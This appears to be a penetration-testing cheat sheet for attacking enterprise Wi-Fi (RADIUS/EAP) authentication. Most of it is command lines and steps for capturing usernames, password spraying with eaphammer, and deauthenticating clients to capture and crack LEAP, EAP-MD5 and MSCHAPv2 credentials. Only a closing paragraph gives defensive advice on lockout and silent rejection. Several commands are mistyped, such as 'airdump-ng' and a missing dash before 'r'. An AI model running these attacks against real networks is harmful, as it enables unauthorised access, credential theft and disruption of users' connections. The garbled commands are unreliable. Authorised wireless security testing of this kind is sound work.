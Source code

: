 ## RADIUS Usernames Capture
    Only possible when RADIUS Identity is sent in cleartext (EAP-MD5, LEAP, sometimes in weak config of other methods)
    
    Wireshark > "Identity" field into EAP Message of type "Response, Identity"
    $ python crEAP.py -i mon0 -c <channel>

## RADIUS Accounts Bruteforce / Password Spraying
    $ eaphammer --eap-spray --interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \ --essid <target_ESSID> --password <password_to_spray> --user-list <usernames_list>

## LEAP & EAP-MD5 Handshake Capture & Cracking 
    LEAP & EAP-MD5 are old deprecated EAP methods that transmit client authentication (challenge/ response) in cleartext
    
    1. Check and confirm whether WLAN is protected by LEAP encryption or not.
    2. De-authenticate the LEAP protected client using tools such as karma, hotspotter, etc.
    3. If the client is Deauthenticated then break the LEAP encryption using a tool to steal the confidential information.
    4. If the process dropped then de-authenticate again.
  
        $ airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
        $ eapmd5pass r <capture> -w <wordlist>
          (For EAP-MD5)
        
        $ asleap –r <capture> -W <wordlist>
          (For LEAP (crack MSCHAPv2 challenge/response)

## MSCHAPv2 Challenge / Response Capture (via Rogue AP) & Cracking
    Possible when EAP method is using MSCHAPv2 for client authentication (e.g. PEAPv0(MSCHAPv2), EAPTTLS(MSCHAPv2))
    
    $ asleap -C  <mschapv2_challenge> -R <mschapv2_response> -W <wordlist>
      (Challenge/response colon-delimited format)

## Protected Extensible Authentication Protocol (PEAP) Authentication Attack
PEAP, a commonly used security protocol, is often used along with WPA and WPA2 wireless networks in Enterprise mode. Users can leverage unique authentication credentials, such as username and password, to access the network. An attacker monitors the network traffic to obtain a list of valid usernames. For each valid username, an attacker can attempt to log in and guess for weak passwords or conduct a password spraying attack.

Recommendation:
A helpful approach to preventing PEAP authentication attacks is configuring authentication servers to silently ignore incorrect passwords instead of sending a rejection message, increasing the time the attacker has to wait between password guesses. In addition to ignoring incorrect password submissions, configure an account lockout policy that will lock the account after a certain number of unsuccessful login attempts to prevent unauthorized access.
